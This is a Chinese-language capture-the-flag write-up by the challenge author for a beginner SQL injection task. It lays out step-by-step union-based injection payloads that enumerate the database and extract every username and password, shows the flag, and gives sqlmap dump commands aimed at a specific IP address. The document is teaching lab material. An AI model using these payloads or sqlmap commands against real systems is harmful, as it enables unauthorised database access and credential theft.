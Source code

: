 ## 来自本题出题人的wp

本题的sql注入没有设置任何的过滤，其实只是想让新手了解sql注入的原理，简直和我出的misc题一样简单！（如果你们有做不出的或觉得复杂的misc，那一定是diffany出的捏）

如果有下载本题释出的环境，可以看到压缩包中仅有的一个index.php，其中第36行的`SELECT * FROM users WHERE username='$username' AND password='$password'`即是需要利用的sql查询语句。想要复现的同学可以选择取消第37行的注释，你的输入将与该sql语句同时输出至前端，可以更清晰地看到你的输入对该语句产生了什么影响。

以下是手动注入的过程和说明，此处默认你已经掌握了一丢丢的sql知识。每步重点会**标粗**，每步的说明不一定很详细，建议可以看看[sqli-labs_04_less01补充基础知识](https://www.bilibili.com/video/BV1e441127Rd?p=4&vd_source=a69f1b8fb2369c8c358ded36e9abbc7d)，其实看完less01这三集，不看我的wp你也能直接做出来的。哦对，还是建议先做“ez_php_source”，毕竟我这题用的不是get传参，得先去那题学点知识，要是傻乎乎的在url后疯狂输出可不会有什么反应的哦

1. 首先可以随便输入点什么，看看网页输出发生了什么变化。比如用户名输入1，密码输入2，会发现输出了“用户: 1 不存在或密码错误！”。当然其实这不重要，重要的是如果你在**输入框内输入了一个单引号“ ' ”**，千万注意是英文的单引号，然后网页会返回“啊哦，出错了！”。恭喜你，你已经**造成了sql语句闭合的错误**了！至于为什么是单引号，反正闭合能用的符号就那几个，都试试就行，单引号是比较常见的，当然你也可以直接看源码，就知道我用的是单引号了

2. 既然用户名和密码的输入都能造成注入，那肯定选用户名下手了，至少我的输入不会变成黑色圆点。然后**输入`' order by 3 #`**返回“用户: ' order by 3 # 不存在或密码错误！”，**输入`' order by 4 #`**返回“啊哦，出错了！”，说明我们不能order by 4。先说一下这个order by是啥，这个一般用于输出时作为排序条件使用，具体可以自行查一查，不展开说明。这里只解释一下此处order by 4报错是因为当前的表（table）没有第四列（column），而order by 3没有报错，则说明当前表有第三列，**两个信息结合得出结论：当前表总共有三列**

3. 再接下来，我们想要看到admin的密码，作为有回显的sql注入，直接把想要的信息显示到网页上是个很方便的做法。注意到，当输入不构成报错时，网页上总会输出“用户：xxx”，那么是不是可以把信息输出到这里来呢。**输入`' union select 1,2,3 #`**，可以看到网页输出“用户：2 欢迎登录！”，说明**位置“2”是可以返回信息的**。union select和select基本就是一个东西，你也可以在mysql的命令行内试试下面输入的语句，可以看到输出大概长这样：

   ```
   MariaDB [ez_sql]> select * from ez_sql.users where username = '1' union select 1,2,3;
   +----+----------+----------+
   | id | username | password |
   +----+----------+----------+
   |  1 | 2        | 3        |
   +----+----------+----------+
   1 row in set (0.000 sec)
   ```

   此处使用本题的表做演示。当然，由于不存在username为1的数据，所以只显示成了这样

4. 既然“2”可以回显信息，那么我们就要在这里动手了。不过在此之前还有个问题，此题仅显示查询的第一行信息。比如你输入`admin' union select 1,2,3 #`，admin用户存在，网页输出了“用户：admin 欢迎登录！”，但如果你在mysql命令行执行，会得到如下结果：

   ```
   MariaDB [ez_sql]> select * from users where username = 'admin' union select 1,2,3;
   +----+----------+---------------------------+
   | id | username | password                  |
   +----+----------+---------------------------+
   |  8 | admin    | ROIS{sqli_1s_in7ere5ting} |
   |  1 | 2        | 3                         |
   +----+----------+---------------------------+
   2 rows in set (0.000 sec)
   ```
   
   存在第二行查询结果，却没有返回到网页显示。因此需要使用group_concat将所有结果放在同一行内，比如这样：
   
   ```
   # 使用前
   MariaDB [ez_sql]> select 1,2,3 from users;
   +---+---+---+
   | 1 | 2 | 3 |
   +---+---+---+
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   | 1 | 2 | 3 |
   +---+---+---+
   8 rows in set (0.000 sec)
   
   # 使用后
   MariaDB [ez_sql]> select 1,group_concat(2),3 from users;
   +---+-----------------+---+
   | 1 | group_concat(2) | 3 |
   +---+-----------------+---+
   | 1 | 2,2,2,2,2,2,2,2 | 3 |
   +---+-----------------+---+
   1 row in set (0.000 sec)
   ```
   
   所以使用group_concat可以将所有信息整合到一行来，这样我们就可以愉快地在网页输出上看到你所查到的信息了
   
   **查库名：`' union select 1,group_concat(schema_name),3 from information_schema.schemata #`**
   
   返回的信息中“ez_sql”即是本题的数据库
   
   **查表名：`' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='ez_sql' #`**
   
   返回的表仅有“users”，所以查这张表内的数据即可
   
   **查列名：`' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' #`**
   
   可能还会返回一些其他奇怪的东西，不过关键在于“username,password”这两列
   
   **查信息：`' union select 1,group_concat(concat_ws(':',username,password)),3 from ez_sql.users #`**
   
   这样会将所有的用户名和密码以“username:password”的形式输出出来，当然你也可以选择用其他的语句带出信息，比如使用不同的分隔符，比如只带出密码等等。根据本题说明，admin的密码就是flag啦

手注的教程告一段落，但我们还可以使用强大的工具sqlmap！鉴于本题传参使用post方式，那么设置好参数就可以一把梭啦。以下是使用sqlmap的命令，不对参数进行说明，遇到暂停需要选择y/n（yes or no）直接回车即可，感兴趣的可以自行尝试

1. 首先可以抓包或者hackbar看一下post的参数，例如用户名：1 密码：1的post参数显示是`username=1&password=1`，这样就够了
2. 查库名：`sqlmap -u http://101.43.57.52:28080/index.php --data='username=1&password=1' --dbs`
3. 查表名：`sqlmap -u http://101.43.57.52:28080/index.php --data='username=1&password=1' --tables -D ez_sql`
4. 输出全表：`sqlmap -u http://101.43.57.52:28080/index.php --data='username=1&password=1' --dump -D ez_sql -T users`

除了使用url和post，还可以在第一步抓包后将http请求包保存下来，比如保存为“http.txt”，然后将以上命令的`sqlmap -u http://101.43.57.52:28080/index.php --data='username=1&password=1'` 替换为 `sqlmap -r http.txt`，是不是命令缩短很多，说不定还有自动寻找其他注入点的神奇功效

